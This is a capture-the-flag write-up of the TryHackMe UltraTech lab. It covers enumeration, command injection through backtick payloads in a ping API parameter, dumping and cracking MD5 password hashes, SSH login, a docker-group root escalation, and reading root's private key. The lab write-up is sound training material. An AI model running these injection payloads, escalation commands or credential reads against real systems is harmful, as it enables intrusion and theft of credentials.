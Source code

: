 ```yaml
---
layout: post
title:  THM UltraTech Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-12 11:00:00 +0300
image:  '/images/thm_ultratech.png'
tags:   [Write-ups, THM, OSCP+, Medium, API, Arbitrary-File-Read, SSH, GTFOBins-Shell, Docker]
---
```


# Table of Contents
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
  - [Web Enumeration](#web-enumeration)
- [Foothold](#foothold)
  - [Interacting with the API URL to enumerate files and find hashes on database .db file](#interacting-with-the-api-url-to-enumerate-files-and-find-hashes-on-database-db-files)
  - [Cracking the hashes](#cracking-the-hashes)
  - [Getting SSH access as r00t](#getting-ssh-access-as-r00t)
- [Privilege Escalation](#privilege-escalation)
  - [Using id to find out that r00t is part of docker group](#using-id-to-find-out-that-r00t-is-part-of-docker-group)
  - [Using shell GTFOBins command to escalate privilegesing shell GTFOBins command to escalate privileges](#using-shell-gtfobins-command-to-escalate-privileges)
  - [Reading id_rsa of root](#reading-id_rsa-of-root)

# Enumeration

### Nmap

```shell
# Step 1 - Find active ports
nmap -p- --min-rate 10000 10.10.211.145

# Step 2 - Focus scan on the active ports found
nmap -A -T4 -Pn -p21,22,8081,31331,37445 10.10.211.145
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 03:31 EST
Nmap scan report for 10.10.211.145
Host is up (0.052s latency).

PORT      STATE  SERVICE VERSION
21/tcp    open   ftp     vsftpd 3.0.3
22/tcp    open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open   http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
37445/tcp closed unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.26 seconds
```

Looking at the results of our nmap scan we can see FTP, SSH and two HTTP. Lets enumerate the HTTP ports first.

### Web Enumeration
If we visit port 8081, we will see UltraTech API v0.1.3, meaning that port 8081 is leading to an API:

```shell
http://10.10.211.145:8081/
```

If we visit port 31331, we will see a website of what seems to be a company.

We can also find a robots.txt file leading us to the file /utech_sitemap.txt:

```shell
http://10.10.211.145:31331/robots.txt
```

If we visit /utech_sitemap.txt, we will find more interesting files to visit:

```shell
/
/index.html
/what.html
/partners.html
```

We checked them, but the only interesting one seems to be /partners.html, leading us to a login portal.

If we inspect the source code of /partners.html, we will see this at the bottom:

```shell
<SNIP>
				</form>
				</div>
			</div>
		</div>
	</div>
	<script src='js/app.min.js'></script>
	<script src='js/api.js'></script>
</body>
</html>
```

If we click on js/api.js, it will lead us to another page, where we can see a line interacting with the API URL:

```shell
<SNIP>
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
<SNIP>
```

Here it is:

```shell
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

# Foothold
### Interacting with the API URL to enumerate files and find hashes on database .db file
It seems like the const url is using ping on an IP, lets try to ping 127.0.0.1, since we know this IP theoretically always exists, and see if we get any answer. We can do that entering the following URL in our web browser:

```shell
http://10.10.211.145:8081/ping?ip=127.0.0.1
```

```shell
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms --- 127.0.0.1 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.015/0.015/0.015/0.000 ms
```

It worked! We got a response showing the results of running the ping command.

Now we can try to run other commands like whoami:

```shell
http://10.10.211.145:8081/ping?ip=whoami
```

It didnt work. Lets try to put whoami like 'whoami':

```shell
http://10.10.211.145:8081/ping?ip='whoami'
```

It also didnt work. Lets try something else. Maybe like \`whoami\`?

```shell
10.10.211.145:8081/ping?ip=`whoami`
```

```shell
ping: www: Temporary failure in name resolution
```

It worked! We got www as ping response, which is actually the result of running the whoami command.

Lets enumerate the files on the directory:

```shell
http://10.10.211.145:8081/ping?ip=`ls%20-al`
```

```shell
ping: utech.db.sqlite: Name or service not known 
```

It seems like there is only utech.db.sqlite. Lets check its content:

```shell
http://10.10.211.145:8081/ping?ip=`cat%20utech.db.sqlite`
```

```shell
ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
```

Nice! We got some hashes:

```shell
Mr00t:f357a0c52799563c7c7b76c1e7543a32
Madmin:0d0ea5111e3c1def594c1684e3b9be84
```

We can suppose that the first user is called "r00t" and the second one "admin".

### Cracking the hashes

Lets try to crack these hashes:

```shell
hashid 'f357a0c52799563c7c7b76c1e7543a32'
```

We got many results of possible valid hash types. Lets suppose its just a normal MD5, which uses -m 0 on hashcat. Now we can try to crack it:

```shell
hashcat -m 0 MrRoot_hash.txt /usr/share/wordlists/rockyou.txt
```

We were able to successfully crack both of them and retrieve the following passwords:

```shell
r00t:n100906
admin:mrsheafy
```

### Getting SSH access as r00t

Lets try to get access using SSH now using r00t as username and the password we just cracked:

```shell
ssh r00t@10.10.211.145
```

Nice! We got access as r00t.

# Privilege Escalation
### Using id to find out that r00t is part of docker group
Using the command id we were able to find out that r00t is part of the docker group:

```shell
id

uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

This may allow us to run docker with privileged permission.

### Using shell GTFOBins command to escalate privileges
Searching for docker on GTFOBins we found the following command:

```shell
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

```shell
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
```

It worked! We got a shell as root.

### Reading id_rsa of root
Now we can read the contents of the root id_rsa and answer the last question:

```shell
cat /root/.ssh/id_rsa
```